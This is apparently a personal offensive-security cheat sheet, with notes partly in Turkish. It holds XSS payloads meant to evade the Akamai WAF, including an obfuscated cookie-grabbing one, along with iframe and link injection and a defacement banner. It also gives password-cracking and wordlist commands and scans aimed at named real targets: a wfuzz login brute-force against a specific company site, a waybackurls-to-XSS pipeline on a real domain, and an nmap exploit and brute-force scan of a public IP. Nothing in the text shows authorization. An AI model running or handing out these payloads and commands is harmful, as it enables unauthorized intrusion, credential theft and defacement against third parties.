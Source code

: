 # manuel

# akamai xss bypass 

```
<font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;</font>
```
```
<A HREF="https://www.cia.gov/">Login Here </A>
```
```
<button onClick="alert('xss')">Submit</button>
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//? >
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//?['ale'%2B'rt'](document%2Bcookie)>
```
________
```
<iframe src="https://www.cia.gov" width="100%" height="500"></iframe>

```
______________________________
# Offensive payload
```
git clone https://github.com/InfoSecWarrior/Offensive-Payloads.git 
```
_____________________________

### link-gopher : Web sitesindeki linkleri cikartir tek tek elle kopyala yapistir yapmazsin
______________________________

# hashcat icin wordlist
```
https://packetstormsecurity.com/Crackers/wordlists/page1/
```
```
https://labs.nettitude.com/tools/rocktastic/
```
```
https://github.com/J3rryBl4nks/PasswordCrackingMethodology
```
```
hashcat -m 300 -a 0 -o hashcikti3a.txt hashes5k.txt weakpass_3a/weakpass_3a
```


____________________________
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt --url 192.168.56.116
```
```
echo "http://arkas.com.tr" | waybackurls | gf xss | xargs -I {} injectx.py -u {}
```
```
wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -z file,/usr/share/seclists/Passwords/darkweb2017-top100.txt --hc 200 -d "username=FUZZ&password=FUZ2Z" https://www.kamyonum.com.tr/edit/login.asp 
```
```
nmap -Pn -n --top-ports 5000 13.40.217.134 -sV -sC --version-all --script=vuln --script=auth --script=http-brute,snmp-brute --script=exploit --script=malware -o nmapExploitScan
```

```
<h1><A HREF="https://cia.gov/"><marquee>YOU HAVE BEEN HACKED by DedCrowd</marquee> </A>
```



